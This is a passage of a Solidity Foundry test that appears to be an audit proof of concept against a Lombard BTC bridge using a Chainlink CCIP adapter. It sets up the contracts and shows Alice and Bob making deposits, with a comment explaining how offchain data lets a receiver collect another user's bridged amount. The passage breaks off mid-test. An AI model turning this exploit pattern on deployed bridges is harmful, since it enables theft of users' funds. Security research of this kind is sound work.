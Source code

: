 ```solidity
        //Initialize contracts
        bridge.initialize(lbtc, treasury, owner);

        //CLAdapter deployment
        address[] memory allowList = new address[](0);
        adapter = new CLAdapter(bridge, 200_000, address(ccipRouter), allowList, address(rmn));

        //Mint tokens
        vm.deal(alice, 10 ether);
        vm.deal(bob, 10 ether);

        lbtc.mintTo(alice, 10_0000_0000);
        lbtc.mintTo(bob, 10_0000_0000);

        //Initialize Settings

        bytes32 encodedBridge = bytes32((uint256(uint160(address(bridge)))));
        bridge.addDestination(bytes32(block.chainid), encodedBridge, 100, 0, adapter, true);
        RateLimits.Config memory rates = RateLimits.Config(bytes32(block.chainid), 1_0000_0000, 100);
        RateLimits.Config[] memory configs = new RateLimits.Config[](1);
        configs[0] = rates;
        bridge.setRateLimits(configs, configs);
        adapter.setRemoteChainSelector(bytes32(block.chainid), 2);

        vm.stopPrank();
    }

    function test_invalidOffchainData() public {
        //Alice bridges funds to herself
        vm.startPrank(alice);

        uint256 aliceBalanceBeforeBridge = lbtc.balanceOf(alice);
        console.log("Alice Balance before depositing: ", aliceBalanceBeforeBridge);

        bytes32 toChain = bytes32(block.chainid);
        bytes32 toAddress = bytes32(uint256(uint160(alice)));
        uint64 amount1 = 50_000_000;

        lbtc.approve(address(bridge), amount1);
        bridge.deposit(toChain, toAddress, amount1);

        vm.stopPrank();

        uint256 aliceBalanceAfterBridge = lbtc.balanceOf(alice);
        console.log("Alice Balance after depositing: ", aliceBalanceAfterBridge);

        //Bob creates a dummy transaction to bridge a small amount of assets to Alice

        vm.startPrank(bob);

        bytes32 toChain1 = bytes32(block.chainid);

        //Alice is again the receiver because the offRamp performs checks whether the receiver from the actual CCIP message received the amount returned from the Token Pool. Since the token pool returns the amount fetched from the offchain data, Alice will receive Bob's amount.

        bytes32 toAddress1 = bytes32(uint256(uint160(alice)));
        uint64 amount2 = 1_000;

        lbtc.approve(address(bridge), amount2);
        bridge.deposit(toChain1, toAddress1, amount2);

```